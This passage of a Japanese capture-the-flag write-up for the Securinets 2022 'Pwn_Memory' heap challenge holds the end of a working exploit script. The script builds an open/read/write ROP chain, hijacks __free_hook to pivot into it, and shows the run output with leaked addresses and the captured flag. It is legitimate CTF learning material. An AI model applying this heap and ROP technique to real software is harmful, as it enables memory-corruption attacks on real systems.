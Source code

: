 ```
buf += p64(pop_rax_ret)
buf += p64(2)
buf += p64(pop_rdi_ret)
buf += p64(heap_base + 0x2418)
buf += p64(pop_rsi_ret)
buf += p64(0)
buf += p64(syscall_ret)
buf += p64(pop_rdi_ret)
buf += p64(0)
buf += p64(xchg_eax_edi)
buf += p64(pop_rsi_ret)
buf += p64(heap_base + 0x4000)
buf += p64(pop_rdx_ret)
buf += p64(0x80)
buf += p64(0)
buf += p64(syscall_ret)
buf += p64(pop_rax_ret)
buf += p64(1)
buf += p64(pop_rdi_ret)
buf += p64(1)
buf += p64(syscall_ret)
buf += b"./flag.txt\x00"
Alloc(0x200, buf)

# Write ROP gadget address(mov rdx, qword ptr [rdi + 8];...) in __free_hook
Alloc(0x70, p64(0)+p64(heap_base+0x22c0)+p64(mov_rdx_rdi))

# Start ROP chain
Free()

s.interactive()
```

実行結果は下記になります。
```
mito@ubuntu:~/CTF/Securinets_CTF_Quals_2022/Pwn_Memory$ python3 solve.py r
[*] '/home/mito/CTF/Securinets_CTF_Quals_2022/Pwn_Memory/memory'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 20.216.39.14 on port 1235: Done
[*] '/home/mito/CTF/Securinets_CTF_Quals_2022/Pwn_Memory/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
heap_leak = 0x564b41f2020a
heap_base = 0x564b41f1e000
libc_leak = 0x7f131dcb4c40
libc_base = 0x7f131dac8000
[*] Switching to interactive mode
Securinets{397b5541d6dacf89123c5a24eea45cb7cc526dade67d4a70}   
```

参考文献：
https://lkmidas.github.io/posts/20210103-heap-seccomp-rop/
